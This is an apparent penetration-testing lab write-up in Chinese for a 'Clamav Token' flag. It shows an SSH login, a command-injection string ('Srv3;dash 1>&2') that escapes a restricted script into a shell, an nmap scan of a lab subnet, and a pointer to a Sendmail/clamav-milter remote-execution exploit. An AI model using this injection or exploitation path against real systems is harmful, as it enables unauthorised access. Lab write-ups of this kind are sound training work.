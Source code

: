 
### Clamav Token

`ssh -i remote.key remote@192.168.11.1`连接192.168.11.1，并使用命令注入进行会话切换到`192.168.11.1`:

```bash
#连接192.168.11.1
ssh -i remote.key remote@192.168.11.1
#命令注入，绕过脚本执行，切换会话到192.168.11.1
Srv3;dash 1>&2
#dash切换为bash
bash
#nmap扫描
nmap -T4 -sV -Pn -n 192.168.11.1-5
```

![](/img/game/TESTLAB/TESTLAB11/nmap扫描192_168_11_1_5.png)

查看到192.168.11.5运行着Sendmail，并用searchsploit搜索sendmail的漏洞。

提交flag的地方写着clamav，自然联想到该sendmail也有clamav(ClamAV在邮件服务器上作为服务器端的电子邮件病毒扫描器).在exploit DB上有[sendmail与clamav-milter <0.91.2 - 远程命令执行](https://www.exploit-db.com/exploits/4761)漏洞
